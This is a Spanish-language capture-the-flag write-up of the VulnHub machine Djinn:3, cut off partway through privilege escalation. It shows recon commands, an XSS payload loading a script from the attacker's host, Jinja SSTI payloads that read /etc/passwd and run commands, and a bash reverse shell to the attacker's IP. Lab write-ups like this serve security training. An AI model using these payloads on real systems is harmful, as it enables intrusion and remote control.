- - -

## Introducción 

En esta máquina de **VulnHub**, **Djinn:3**, nos enfrentamos a un escenario con varios servicios web expuestos, entre ellos un gestor de tickets casero por el puerto 31337 que filtra usuarios válidos por su mal manejo de errores. A partir de ahí, un **Reflected XSS** inicial nos lleva a descubrir que el panel de tickets es también vulnerable a **SSTI**, lo que nos permite escalar a un **RCE** y ganar acceso a la máquina mediante una *reverse shell*.

La escalada de privilegios es la parte más entretenida del laboratorio: pasa por decompilar archivos `.pyc` para entender la lógica de una tarea *cron*, abusar de ella para plantar una clave SSH y pivotar a otro usuario, y finalmente encadenar un abuso de permisos de creación de usuarios con permisos a nivel de *sudoers* mal configurados para llegar a root.

## Fase de Reconocimiento

- - -

### Identificación del objetivo en la red

```bash
arp-scan -I enp0s3 --localnet --ignoredups
```

{: width="600" }

```bash
ping -c 1 10.0.2.23
```

{: width="600" }

Le lanzamos un `ping` y logramos determinar que la máquina víctima está encendida. A mayores, gracias al *TTL* podemos identificar como atacantes que estamos ante una máquina Linux, ya que generalmente `Linux (TTL → 64) | Windows (TTL → 128)` son los valores comunes si no han sido modificados.

### Escaneo de puertos 

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.0.2.23 -oN allPorts
```

```bash
grep '^[0-9]' allPorts | cut -d '/' -f1 | xargs | sort | tr ' ' ','
```


```bash
nmap -p22,80,5000,31337 -sCV -oN targeted 10.0.2.23
```

{: width="600" }

Tras el escaneo vemos que la máquina cuenta con varios puertos abiertos, entre ellos el 22, 80, 5000 y 31337, correspondientes a los servicios *SSH*, *HTTP*, otro servicio *HTTP* desplegado con python3 y un servicio desconocido, respectivamente. Cabe destacar que el servicio *SSH* es vulnerable a enumeración de usuarios, ya que la versión presente es anterior a la 7.7, por lo que ya tenemos un posible vector por el que empezar.

A mayores, vemos que hay un servicio personalizado por el puerto 31337 que no maneja bien los errores y nos permite ver cierta información del mismo, como: ruta y archivo del script */opt/.tick-serv/tickets.py*, versión de python3.6 en uso, y también descubrimos que el script espera un parámetro “username” como input (es decir, nos muestra parte de la lógica del programa).

Sabiendo esto podemos empezar a enumerar los servicios.

## Enumeración 

- - -

### Servicio SSH 

Como decíamos antes, la versión es inferior a la 7.7, por lo que tenemos capacidad de enumerar usuarios válidos. Por el momento descargaré el exploit y lo tendré a mano por si encuentro posibles usuarios al enumerar el resto de servicios.

```bash
searchsploit ssh User Enumeration
```



```bash
searchsploit -m linux/remote/45939.py
mv 45939.py sshUserEnumeration.py
```

### Servicio HTTP (puerto 80)

```bash
whatweb http://10.0.2.23
```



Vemos que usa *lighttpd*, que es un servidor web diseñado para ser rápido. Vamos a acceder a la web a través del navegador para echar un vistazo.

{: width="1000" }

Vemos esta web cuyos botones son atrezzo, y a simple vista no hay nada más destacable de lo que podamos tirar. En este punto aplicaremos *fuzzing* para tratar de descubrir rutas y archivos expuestos en la web.

```bash
feroxbuster -u http://10.0.2.23 -w /usr/share/SecLists-master/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 40
```

{: width="1000" }

No encontramos nada; vamos a dejar esta web de lado de momento y pasaremos a la del puerto 5000.

### Servicio HTTP (puerto 5000)

```bash
whatweb http://10.0.2.23:5000
```



Vamos a acceder a través del navegador y echarle un ojo.

{: width="1000" }

Nos encontramos un panel de tickets con tareas a llevar a cabo; como título, en rojo, se indica que el programa está en desarrollo y podría haber fallos. Si hacemos *hovering* sobre los distintos enlaces, vemos que, pasándole el parámetro `id` y un número identificador, accedemos a los distintos tickets creados.


Podríamos aplicar *fuzzing* para encontrar todos los tickets existentes en la web e ir echándoles un vistazo uno a uno a ver qué encontramos.

```bash
wfuzz -c --hc=500 -t 200 -z range,0-10000 'http://10.0.2.23:5000/?id=FUZZ'
```



Los mismos identificadores que en la web. Vamos a echarles un vistazo uno a uno:

- *ticket id 4567*



Descubrimos que, para el servicio de creación de tickets —que tiene toda la pinta de ser el que corre por el puerto 31337 de la máquina víctima—, está habilitado el usuario *guest* (también podemos validar si es válido para el servicio *SSH* con el exploit de enumeración de usuarios).

- *ticket id 7723*



Dos nuevos posibles usuarios válidos para el servicio SSH, “jack” y “umang”.

- *tickets id 2984*



Más usuarios potenciales, “jason”, “david” y “freddy”.

- *ticket id 2973* 



Se nos habla algo de un proyecto sobre un *honeypot*; por el momento no tenemos más información, así que no le daremos mucha importancia.

En este punto vamos a validar si los usuarios descubiertos existen o no, aprovechándonos de que el servicio *SSH* es vulnerable a la enumeración de usuarios.

{: width="500" }

Al probarlo, veremos que todos los nombres de usuario que le pasemos dirá que son válidos, por lo que no nos podemos fiar de sus resultados. Vamos a echarle un vistazo al último servicio, el del puerto 31337.

### Servicio gestor de tickets (puerto 31337)

```bash
nc 10.0.2.23 31337
```

{: width="500" }

Utilizamos el usuario “guest”, que nos chivaron los otros tickets, y conseguimos entrar.

## Explotación 

- - -

### Reflected XSS 

Vamos a probar a crear un ticket con un payload de **Reflected XSS** y validar cómo se comporta el servidor.



Al acceder a través del navegador al ticket…

{: width="300" }

Descubrimos que es vulnerable a ataques **Reflected XSS**. En este punto vamos a validar si hay alguien echando un vistazo a los tickets; si es así, trataremos de robarle la cookie de sesión, pero antes:

```js
<script src="http://10.0.2.13/pwned.js"></script>
```

En nuestra máquina atacante levantamos un servidor *HTTP* con `python3` por el puerto 80. Una vez creado el ticket, esperaremos un rato a ver si nos llega una petición a nuestra máquina y, por lo tanto, hay alguien echándole un ojo a los tickets.

```bash
python3 -m http.server 80
```

Tras un rato esperando, no llega ninguna petición, por lo que descartamos la opción del **Cookie Hijacking**.

### SSTI

Como anteriormente vimos que este servicio estaba desplegado con `python3`, podríamos probar a ejecutar un **SSTI**, de forma que, si finalmente es vulnerable, podríamos llegar a hacer cosas más interesantes que con un **Reflected XSS**. Para validar si el servicio es vulnerable o no podemos pasarle el siguiente *payload*:


```python
{{7*7}}
```




Al entrar al ticket a través del navegador podemos confirmar que el servidor es vulnerable a **SSTI**.

{: width="110" }

Efectivamente, el servidor es vulnerable a **SSTI**, y esto nos abre un abanico de posibilidades más grande que con el **Reflected XSS**. Por ejemplo, ahora podríamos tratar de *leer archivos locales de la máquina* de la siguiente manera:


```python
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```




Al acceder a través del navegador vemos:

{: width="600" }

Conseguimos leer el contenido del archivo */etc/passwd* y vemos que existen los usuarios “saint”, “jack” y “mzfr”. En este punto podríamos ver si tenemos capacidad de ejecución remota de comandos a través de esta vulnerabilidad, es decir, un **RCE**.

Para esto podemos inyectar:


```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```




{: width="400" }

De esta manera confirmamos el **RCE**, tenemos capacidad de ejecutar comandos remotos en la máquina víctima. Sabiendo esto, vamos a llevar a cabo la intrusión lanzándonos una *reverse shell* a nuestra máquina atacante.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.0.2.13/443 0>&1"').read() }}
```



Nos ponemos en escucha en nuestra máquina atacante.

```bash
nc -nlvp 443
```

Y, desde la web, entramos en el ticket para que se interprete y recibamos la *reverse shell*.

{: width="600" }

De esta manera habríamos completado la intrusión a la máquina víctima. Quedaría hacer un *tratamiento de la TTY* antes de continuar con la enumeración local para escalar privilegios.

#### Tratamiento de la TTY

```bash
script /dev/null -c bash
# ctrl + z 
stty raw -echo;fg
reset xterm 
export SHELL=bash TERM=xterm
stty rows 53 columns 206
```

Una vez hecho, podemos continuar con el test de intrusión, concretamente con la enumeración local de la máquina víctima para escalar privilegios.

## Escalada de Privilegios 

- - -

### Enumeración local

```bash
grep 'sh$' /etc/passwd
```



De primeras nuestro objetivo será pivotar a alguno de estos usuarios. Enumeramos archivos con privilegios *suid*, *capabilities* asignadas en el sistema, permisos a nivel de *sudoers*, etc. Pero no encontramos nada; al final optamos por buscar tareas definidas a intervalos regulares de tiempo con un script de bash, en vez de usar la conocida herramienta `pspy`.

```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
	new_process=$(ps -eo user,command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
	old_process=$new_process
done
```
{: file="procmon.sh" }

Lo ejecutamos durante un rato y descubrimos lo siguiente:

{: width="600" }

El usuario “saint” ejecuta de forma periódica, con python3, el script “syncer.py”. Si tuviéramos permisos de lectura o escritura sobre el archivo, podríamos idear el *user pivoting* mediante **Python Library Hijacking** o similares.



Pero no tenemos permisos sobre este archivo ni sobre ningún directorio */home* de los usuarios existentes. En ese mismo directorio, */opt*, si listamos los archivos existentes veremos lo siguiente:

{: width="700" }

Hay dos archivos con extensión `.pyc` y dos directorios correspondientes al programa de tickets del servidor; en especial, nos llaman la atención los archivos `.pyc` (Python Compiled).

> **Archivos .pyc (Python Compiled)**
>
> Son archivos de bytecode generados automáticamente por el intérprete de Python a partir del código fuente (.py). Se suelen almacenar en la carpeta `__pycache__` para optimizar y acelerar la carga del programa en futuras ejecuciones, evitando volver a compilar el código.
{: .prompt-info }

Si intentamos ver el contenido de estos archivos, veremos que están compilados y son ilegibles:

{: width="1000" }

Para tratar de imprimir por consola los caracteres legibles y ver un poco el funcionamiento de los programas, podemos utilizar la utilidad `strings`:

```bash
cat .syncer.cpython-38.pyc .configuration.cpython-38.pyc  | strings
```

{: width="600" }

De esta forma veremos todos los caracteres imprimibles que contengan los archivos `.pyc`.


Podemos destacar algunas rutas legibles, pero nada de lo que realmente tirar. Lo que podemos hacer en este punto es tratar de hacer el proceso inverso: decompilar estos archivos para llegar a ver su contenido en texto claro, utilizando la herramienta `uncompyle6`.

### Decompilado de archivo `.pyc`

Para instalar esta herramienta, nos vamos a nuestra máquina atacante y, con `pip3`, ejecutamos:

```bash
# antes de instalarlo, para evitar problemas con los paquetes es necesario crear un entorno virtual con python
python3 -m venv venv
source venv/bin/activate
